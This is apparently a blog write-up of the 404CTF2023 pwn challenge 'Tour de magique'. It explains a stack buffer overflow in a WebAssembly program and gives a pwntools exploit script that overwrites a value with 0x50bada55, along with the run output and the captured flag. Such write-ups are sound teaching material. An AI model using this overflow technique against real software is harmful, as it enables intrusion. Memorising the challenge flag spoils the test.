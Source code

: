 ```yaml
---
title: CTFs | 404CTF2023 | Tour De Magique
author: Kaiba_404
date: 2023-06-05
categories: [CTFs, 404CTF2023, Tour De Magique]
tags: [CTF, 404CTF2023, pwn]
permalink: /CTFs/404CTF2023/pwn/tourdemagique
---
```



# Tour de magique

![tourde_magie](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/fe2455b8-6f8a-4509-85bc-d5c7b5805864)

We can download the zip file [tour-de-magie.zip](https://github.com/CongKhaiNGUYEN/congkhainguyen.github.io/tree/main/_posts/CTFs/404CTF2023/pwn/files/tour-de-magie.zip) from the challenge. 


After unzipping the downloaded file, it appears that the files provided are intended for running WebAssembly code. The main code is stored in the `main.c` file. To test the program, we can use the command `wasmtime main.wasm` in the terminal. This command executes the WebAssembly module main.wasm using the wasmtime runtime environment. This way, we can run and observe the behavior of the WebAssembly program.

After analyzing the code, I realize that there is a simple Buffer Overflow (BOF) vulnerability. From this information, I can construct a payload to exploit the vulnerability and retrieve the flag.

Based on the code in `main.c`, the payload can be constructed as follows:

`payload = b'A' * 16 + b'\x55\xda\xba\x50' + b'AAA'`

Here is my exploitation code:

```python
from pwn import *

# p = process(["./wasmtime","main.wasm"])
p = remote("challenges.404ctf.fr",30274)


p.recvuntil(b'magicien ?')
p.sendline(b'A'*16+p32(0x50bada55)+b'AAA')

print(p.recvall().decode())
```

```bash
$ python3 exploit.py 
[+] Opening connection to challenges.404ctf.fr on port 30274: Done
[+] Receiving all data: Done (119B)
[*] Closed connection to challenges.404ctf.fr port 30274

Wow ! Respect ! Quelles paroles enchantantes ! Voilà ta récompense...
404CTF{W0w_St4Ck_3cR4s3_l4_H34P_Qu3LL3_M4G13}
```

**Flag:** `404CTF{W0w_St4Ck_3cR4s3_l4_H34P_Qu3LL3_M4G13}`